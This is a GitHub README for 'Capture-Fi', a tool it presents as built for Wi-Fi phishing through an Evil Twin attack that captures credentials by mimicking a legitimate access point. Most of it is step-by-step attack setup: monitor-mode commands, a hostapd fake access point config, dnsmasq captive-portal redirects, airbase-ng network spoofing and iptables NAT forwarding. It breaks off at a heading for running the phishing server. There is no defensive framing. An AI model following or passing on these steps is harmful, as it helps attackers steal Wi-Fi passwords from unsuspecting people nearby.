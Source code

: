 <h1 align="center">Capture-Fi 🛜</h1>

**Capture-Fi** is a lightweight tool built with **Python** and **HTML**, designed for **Wi-Fi phishing**.  
It enables the setup of an **Evil Twin attack**, allowing you to capture Wi-Fi credentials by mimicking a legitimate access point.

## Features
```- Wi-Fi phishing using an Evil Twin method.```<br>
```- Customizable fake login page using HTML.```<br>
```- Lightweight and easy to use.```<br>
```- Built-in Python server to host the phishing page.```<br>
```- Compatible with a wide range of devices, including Raspberry Pi Zero W, M5StickC Plus, and ESP32/ESP8266.```

## Prerequisites
- Python 3.x
- Wi-Fi adapter with monitor mode and packet injection support (necessary)
- Parrot OS or any other Linux distribution (necessary)
- If you want to create a portable Wi-Fi phishing device, you can choose from the following devices:
  - **Raspberry Pi Zero W**: Compact and versatile, ideal for various hacking projects.
  - **M5StickC Plus**: A small, easy-to-use microcontroller with built-in display.
  - **ESP32/ESP8266**: Popular microcontrollers with Wi-Fi capabilities, suitable for a range of IoT applications.
  
## Installation

To set up **Capture-Fi**, follow these steps:

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/Infosec-Ivan/Capture-Fi.git
   cd Capture-Fi


## Setup Process

If you have a Wi-Fi adapter that supports monitor mode, packet injection, and access point (AP) mode, and you are using a Linux distribution, follow these steps to start an Evil Twin attack with a captive portal redirecting to `server.py`:

### 1. Install Required Tools

Ensure you have the necessary tools installed. Use `aircrack-ng` and `hostapd` for this setup. Install them with:

```sudo apt update```<br>
```sudo apt install aircrack-ng hostapd```


## 2. Prepare Your Wi-Fi AdapterEnable Monitor Mode:

```sudo ip link set <interface> down```<br>
```sudo ip link set <interface> up```<b>
```sudo ip link set <interface> monitor```
**Replace <interface> with your Wi-Fi adapter's interface name (e.g., wlan0).**

## 3. Configure the Captive Portal

`- Create a Fake Access Point with hostapd: Create a configuration file (/etc/hostapd/hostapd.conf) for hostapd:`

`interface=<interface>
driver=nl80211
ssid=FakeNetwork
hw_mode=g
channel=6`

**Start hostapd with:**
```sudo hostapd /etc/hostapd/hostapd.conf```

**- Set Up the Captive Portal Redirect: Create a default configuration file for dnsmasq (/etc/dnsmasq.conf):**

`interface=<interface>
dhcp-range=10.0.0.2,10.0.0.20,12h
address=/example.com/10.0.0.1`

**- Replace <interface> with your Wi-Fi adapter’s interface.**
**- Replace example.com with the domain or IP that you want to redirect to.**

## 4. Start the Fake Access Point
**- Create the Fake Network: Use airbase-ng to create a fake network:**
`sudo airbase-ng -e "FakeNetwork" -c 6 <interface>`
**-Replace <interface> with your Wi-Fi adapter’s interface.**

## 5. Configure IP Forwarding and NAT

**- Set up IP forwarding and NAT to route traffic through your server:**
`sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o <internet-interface> -j MASQUERADE
sudo iptables -A FORWARD -i <interface> -o <internet-interface> -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -A FORWARD -i <internet-interface> -o <interface> -j ACCEPT`

## 6. Deploy and Run server.py



